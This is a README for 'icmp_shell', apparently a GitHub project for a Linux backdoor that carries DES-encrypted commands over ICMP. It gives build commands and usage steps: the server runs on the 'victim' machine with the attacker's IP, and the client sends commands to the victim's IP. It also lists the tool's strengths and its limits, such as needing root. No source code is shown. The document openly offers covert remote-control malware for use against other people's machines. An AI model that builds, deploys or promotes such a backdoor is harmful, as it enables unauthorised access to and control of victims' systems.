

# icmp_shell
A backdoor based on icmp protocol, support linux platform.

## 使用方法

    make client   # 编译client
    make server   # 编译server
  
受害机运行：

    ./server attack-ip
    
攻击者运行:

    ./client victim-ip command
    
## 优点

* 使用des进行数据通信的加密
* 全程基于icmp协议进行数据通信
* 只满足了核心功能

## 不足

* 没有添加交互式
* 非反弹式，碰到nat无法使用
* 需要使用root权限运行
* 没有处理错误输出
* 代码中没有处理异常情况
* 缺点太多:(

## 使用截图

